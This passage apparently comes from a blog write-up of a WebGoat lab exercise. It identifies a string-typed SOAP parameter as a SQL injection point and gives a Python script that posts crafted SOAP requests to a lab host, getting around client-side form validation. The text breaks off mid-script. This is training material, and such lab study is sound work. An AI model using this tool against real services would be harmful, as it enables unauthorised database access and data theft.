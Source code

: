 ```
```

And we find one!

```
<wsdl:message name="getCreditCardRequest">
	<wsdl:part name="id" type="xsd:string"/>
</wsdl:message>
```

Whoops, looks like the ```user_id``` can be a string! Sounds like we can do some good old SQL injection on this field. However, when we try to perform it in the form on the page we get this error:

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_22/soap-sql-injection-error.jpg">

Hmm..looks like there might be some field checking on the client that sends our form data to the SOAP interface. Luckily we have our own SOAP client! Let's try to perform our SQL injection attack using the modified script:

{% highlight python %}
import sys
import requests
import lxml.etree as etree

def send_soap(method, user_id):
	soap_url = "http://192.168.56.101/WebGoat/services/WsSqlInjection?WSDL"
	headers={
		'content-type': 'application/soap+xml',
		"SOAPAction":""
	}
	cookies = dict(
		JSESSIONID="D49B1C7B6EE2243929D320213C6A9C1B",
		acopendivids="swingset,jotto,phpbb2,redmine",
		acgroupswithpersist="nada"
	)
	body = get_soap_request(method, user_id)
	r = requests.post(soap_url, data=body, headers=headers, cookies=cookies)
	formatted_response = etree.tostring(etree.fromstring(r.content), pretty_print=True)
	result_tag_name = "{}Return".format(method)
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
	print ("SOAP Protocol Interaction:")
	for result in etree.fromstring(r.content).iter(result_tag_name):
		print ("Request: {}({}) | Response: {}".format(method, user_id, result.text))
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")

def get_soap_request(method, user_id):
	request_body = """<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
	<SOAP-ENV:Envelope
	SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
	xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<SOAP-ENV:Body>
		<m:{} xmlns:m="urn:SoapRequest">
			<id xsi:type="xsd:string">{}</id>
		</m:{}>
	</SOAP-ENV:Body>
	</SOAP-ENV:Envelope>
	""".format(method, user_id, method)
	
	return request_body

def main():
	try:
		send_soap(sys.argv[1], sys.argv[2])
	except: